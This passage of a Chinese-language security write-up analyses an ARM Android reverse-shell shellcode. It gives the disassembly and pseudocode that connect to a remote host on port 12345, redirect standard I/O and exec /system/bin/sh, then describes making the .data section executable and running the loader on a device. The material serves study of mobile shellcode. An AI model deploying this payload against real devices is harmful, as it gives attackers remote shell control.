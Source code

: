 ```
.data:0000208C 10 00 2D E9                             STMFD           SP!, {R4}
.data:00002090 38 30 8F E2    ADR   R3, aPathSbinVendor ; "PATH=/sbin:/vendor/bin:/system/sbin:/sy"...
.data:00002094 08 00 2D E9                             STMFD           SP!, {R3}
.data:00002098 0D 20 A0 E1                             MOV             R2, SP
.data:0000209C 10 00 2D E9                             STMFD           SP!, {R4}
.data:000020A0 24 40 8F E2                             ADR             R4, aSh ; "sh"
.data:000020A4 10 00 2D E9                             STMFD           SP!, {R4}
.data:000020A8 0D 10 A0 E1                             MOV             R1, SP
.data:000020AC 0B 70 A0 E3                             MOV             R7, #0xB
.data:000020B0 00 0000 EF                             SVC             0       ; execve
.data:000020B4  loc_20B4                       ; DATA XREF: .data:00002040o
.data:000020B4 02 00 30 39   ;structsockaddr_in: <family+port+host>, port: 0x3039(12345)
.data:000020B8xx xxxxxx; ip address
.data:000020BC 2F 73 79 73 74 65 6D 2F+aSystemBinSh    DCB "/system/bin/sh",0  ; DATA XREF: .data:00002084o
.data:000020BC 62 69 6E 2F 73 68 00                                            ; .data:loc_20B4o
.data:000020CB 00                                      DCB    0
.data:000020CC 73 68 00      aSh             DCB "sh",0              ; DATA XREF: .data:000020A0o
.data:000020CF 00                                      DCB    0
.data:000020D0 50 41 54 48 3D 2F 73 62+aPathSbinVendor DCB "PATH=/sbin:/vendor/bin:/system/sbin:/system/bin:/system/xbin",0
.data:000020D0 69 6E 3A 2F 76 65 6E 64+       ; DATA XREF: .data:00002090o
.data:0000210D 00                                      DCB    0

```

payload通过svc指令调用相应的linux函数，相应的函数已备注在汇编代码中，这段代码功能是通过tcp连接远程服务器的特定端口，伪代码如下：

```
r = fork();
if r<>0
exit_thread();
setsid();
s = socket(2,1,6);
connect(s, socaddr, 0x10);
dup2(s,0);//@stdin
dup2(s,1);//@stdout
dup2(s,2);//@stderr
execve("/system/bin/sh", "sh", "PATH=/sbin:/vendor/bin:/system/sbin:/system/bin:/system/xbin");

```

loader编译后直接运行会失败，这是因为payload存储在“.data”节中，其属性是“Read”的，需要为该节增加“Execute”属性才会运行成功。这里使用010 Editor的ELFTemplate为“.data”节增加“Execute”属性：

![p1](http://drops.javaweb.org/uploads/images/e0fb47a507b1646d09b1fb9a6bfceaef6e241efc.jpg)

然后push到设备中，即可运行成功：

![p2](http://drops.javaweb.org/uploads/images/a15195302fdb09aaf11b0176df818ecd6615044e.jpg)

0x02 参考
=======
